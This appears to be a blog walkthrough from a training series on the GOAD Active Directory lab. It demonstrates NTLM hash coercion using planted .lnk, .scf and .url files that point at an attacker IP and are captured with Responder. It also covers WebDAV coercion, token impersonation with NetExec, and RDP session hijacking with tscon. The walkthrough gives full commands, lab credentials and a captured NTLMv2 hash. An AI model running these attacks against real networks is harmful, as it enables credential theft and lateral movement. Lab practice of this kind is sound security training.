






GOAD - part 12 - Having fun inside a domain - Done
The different techniques presented here need an active user to exploit them. For this attack, we need to have a valid user in the domain. We will have to simulate the victim by RDP connection manually.
# Coerce me with files
let’s start by enumerating CastelBlack server shares.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --shares
We can see above that we have
ReadandWriteaccess inallshare.So we can try some attacks here. Let’s start with
slinky : .lnk file## Slinky: .lnk file
For this kind of attack, we will create a file with NetExec with module slinky. This module will create an ink file in every folders we do have
Writepermission on our target server.1st - Let’s create and drop the file in a single command.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --sharesnetexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip
Above we can see that we enumerated the shares first then we created the
.lnkfile and added to all writable shares, in our case this file was added toallshare.After this, our next step is to launch Responder and listen on the network, in our case, we will use the interface on the network we are targeting.
sudo responder -I vmnet2
For this attack to work in this lab, we will login with a user, because we don’t have a valid bot. Let’s use xfreerdp ro remote access to the machine.
xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:winterfell.north.sevenkingdoms.local /cert-ignore /size:80%After connecting, we need to go to the shares
all.\\castelblack.north.sevenkingdoms.local\\all
Once the user access the share we get the users hash through Responder.

catelyn.stark::NORTH:19d99c632a805889:0A6C8691396FE9B6A3AD3B5B3B378671:0101000000000000807C08D0D26CDA0113EF01224A1B3CFE000000000200080036005A005300590001001E00570049004E002D004200560032003900370035003100460036005700510004003400570049004E002D00420056003200390037003500310046003600570051002E0036005A00530059002E004C004F00430041004C000300140036005A00530059002E004C004F00430041004C000500140036005A00530059002E004C004F00430041004C0007000800807C08D0D26CDA010600040002000000080030003000000000000000010000000020000014D15C2C005F5BBD167168BE6315E609F4B52B5F2604A44EB5ECB51FFF2D5E5E0A001000000000000000000000000000000000000900220063006900660073002F003100390032002E003100360038002E00350036002E0031000000000000000000This coerce append automatically when the victim visit the share, no need to click! I let you imagine what append if you drop that kind of file on a common public share during your pentest. Here the file start with a “.” so it will be hidden if you don’t activate show hidden file option. The coerce only append when the file is showed (in a pentest it’s recommended to not use a filename starting with “.”)
We can now get the NTLMv2 hash and try to crack it using John or hashcat.
In case we can not crack the hash(for password complexity) It is also possible to do a relay here using ntlmrelayx.py to not smb signed server and get share access or admin access depending on the relayed authentication target.
To keep the lab clean, let’s clean this .lnk file.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip CLEANUP=true# .scf : sucffy
The previous attack can also be achieved using .scf. The proccess is exactly the same as the previous one.
# .url file
Now, this Coerce attack is by using .url files. Let’s start by creating a file called
salaryFiles.url, it’s good to use creative names, even tho for this attack to work, the users doesn’t need to click/open the file, the user just need to access the folder were the file is.[InternetShortcut] URL=http://hr.company.com/pwned WorkingDirectory=test IconFile=\\10.4.10.1\%USERNAME%.icon IconIndex=1The next step it to upload this file to the share we do have Write permission, in our case it the share
all. we can use smblient.py to upload the file.[
smbclient.py](http://smbclient.py/) north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
After this, our next step is to launch Responder and listen on the network, in our case, we will use the interface on the network we are targeting.
sudo responder -I vmnet2After uploading the file into the share all, we will access remotely to simulate a valid user.
xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:winterfell.north.sevenkingdoms.local /cert-ignore /size:80%access the share below
\\castelblack.north.sevenkingdoms.local\\all
After the user access the share, we will get the user hash through Responder.

# Webdav coerce - I need to get later back to finish it
For this attack to work, webdav needs to be enabled on the host.
Webclient is installed by default on windows workstations but in a stopped status. Webclient is not installed by default on windows server, it has been added on goad build as a custom vulnerability.
Let’s start by enumerating webdav using NetExec.
netexec smb 10.4.10.10-23 -u arya.stark -p 'Needle' -d 'north.sevenkingdoms.local' -M webdav
As we can see above, webdav is not enabled on none of the servers in the network.
For the labbing purpose, we can enable webdav by remote accessing the host. Webdav is installed on essos.local Domain Controller (braavos.essos.local) but it’s not enabled
We can see that webdav is installed, but not enable it.
xfreerdp /d:essos.local /u:khal.drogo /p:horse /v:braavos.essos.local /cert-ignore
Now let’s continue… We can use Netexec for the next step or we can also create our file and upload it using smbclient.py. For this, i’ll use NetExec.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d 'north.sevenkingdoms.local' -M drop-sc
Above it’s possible to see that, NetExec enumerated the shares we do have
Writeaccess, created the malicious file and uploaded it to the share we do have Write permission, which is theall.Once the attacker access the share we were able to upload the malicious file, it will automatically enable WebDav.

Just to be clear here we are connected as khal drogo on braavos. The malicious document is on castelblack. When khal visit the share all on castelblack containing our malicious document, the webclient service start on braavos (khal’s client machine)
If we enumerate the Webdav service again on the network, we will notice that webdav is enabled now on our network on host 10.4.10.23.

Once we see the webclient started we can add a DNS entry to our responder ip with dnstools
# Impersonate Users
Another cool way to take other accounts is using token impersonation. Let’s use NetExec for this attack, we need to to have a valid user in the domain.
netexec smb castelblack.north.sevenkingdoms.local -u 'jeor.mormont' -p '*L0ngCl@w*' -d north.sevenkingdoms.local -M impersonate
As we can see above, we were able to launch this attack, and now we have a token ID of each of the users. Now we just need to execute commands as a user, using the user token ID.
netexec smb castelblack.north.sevenkingdoms.local -u 'jeor.mormont' -p '*L0ngCl@w*' -d north.sevenkingdoms.local -M impersonate -o TOKEN=6 EXEC=whoami
We can see see above that we can execute any command impersonting any kind of user by choosing the Token ID.
# RDP Session Hijacking
Adversaries may hijack a legitimate user’s remote desktop session to move laterally within environment. Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS).
Adversaries may perform RDP session hijacking which involves stealing a legitimate user’s remote session. Typically, a user is notified when someone else is trying to steal their session. With System permissions and using Terminal Services Console. C:.exe [session number to be stolen], an adversary can hijack a session without the need for credentials or prompts to the user. This can be done remotely or locally and with active or disconnected session. It can also lead Remote System Discovery and Privilege Escalation by stealing a Domain Admin or higher privileged account session. All of this can be done by using native Windows commands, but it has also been added as a feature in red teaming tools.
It is possible to switch from one user’s desktop to another through the use of tscon, this will require us to have NT AUTHORITY/SYSTEM
This doesn’t work on windows server 2019, but it works perfect on windows 2016.
Let’s use 2 users here.
Let’s start by connecting as the victim. This is just for labbing purpose, because in a real environment we will have users logged in.
daenerys.targaryen will play the roll as our victim user.
xfreerdp /d:essos.local /u:daenerys.targaryen /p:'BurnThemAll!' /v:10.4.10.23 /cert-ignoreNow let’s connect as the attacker on the same machine. We will use khal.drogo as the attacker(it’s the user we own)
xfreerdp /d:essos.local /u:khal.drogo /p:'horse' /v:10.4.10.23 /cert-ignoreIt’s better to run CMD.exe as an administrator.
We can then enumerate users session by issuing the command:
query user
As we can see above we can do have 2 users logged in with RDP session. The first user is the user we own, and we can distiguise this we the GREATER THAN sign that we do have on the user own. then we can see that we do have the second user(daenerys.targaryen) andd we can see that the user has RDP-TCP session as well with th ID 3.
We can Hijack the user daenerys.targaryen RDP session.
tscon.exe 3 /dest:rdp-tcp#5When we launch the command our khal’s rdp session is replaced by daenerys session and the other windows we open before with daenerys will close.
Future Attack to be added:
Login Script Hijacking: A classic persistence move where we use our GenericAll rights to booby-trap User’s scriptPath attribute, forcing the network to run our malicious code the absolute second he/she logs into her computer.